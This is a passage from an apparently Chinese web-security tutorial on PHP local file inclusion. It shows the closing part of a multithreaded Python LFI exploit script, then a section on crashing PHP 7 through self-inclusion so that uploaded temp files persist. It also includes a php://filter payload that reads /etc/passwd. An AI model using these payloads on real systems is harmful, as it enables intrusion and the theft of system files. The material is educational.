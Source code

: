 ```python
    event = threading.Event()
    lock = threading.Lock()
     
    tp = []
     
    for i in range(poolsz):
        tp.append(ThreadWorker(event, lock, maxattempts, host, port, req, offset, lfi_req, tag))
     
    for t in tp:
        t.start()
     
    try:
        while not event.wait(0.5):
            if event.is_set():
                break
            with lock:
                sys.stdout.write("\r\n% 4d / % 4d\n" % (counter, maxattempts))
                sys.stdout.flush()
                if counter >= maxattempts:
                    break
     
        if event.is_set():
            info_msg = "Wowo! \m/"
        else:
            info_msg = ":("
        log.info(info_msg)
     
    except KeyboardInterrupt:
        info_msg = "\nTelling threads to shutdown..."
        log.info(info_msg)
        event.set()
     
    info_msg = "Shutting down..."
    log.info(info_msg)
     
    for t in tp:
        t.join()

if __name__ == "__main__":
    main()
```

## 0x05 自包含、php7SegmentFault

/a.php?include=a.php  
这样a.php会将它本身包含进来，而被包含进来的a.php再次尝试处理url的包含请求时，再次将自己包含进来，形成了无穷递归，递归会导致爆栈，使php无法进行此次请求的后续处理，然后就能进行包含啦！

本地文件包含漏洞可以让 php 包含自身从而导致死循环,然后 php 就会崩溃 ，如果请求中同时存在一个上传文件的请求的话 , 这个文件就会被保留，include.php?file=php://filter/string.strip_tags/resource=/etc/passwd

参考：<a href="https://www.jianshu.com/p/dfd049924258" target="_blank" rel="noreferrer noopener" rel="nofollow" >https://www.jianshu.com/p/dfd049924258</a>
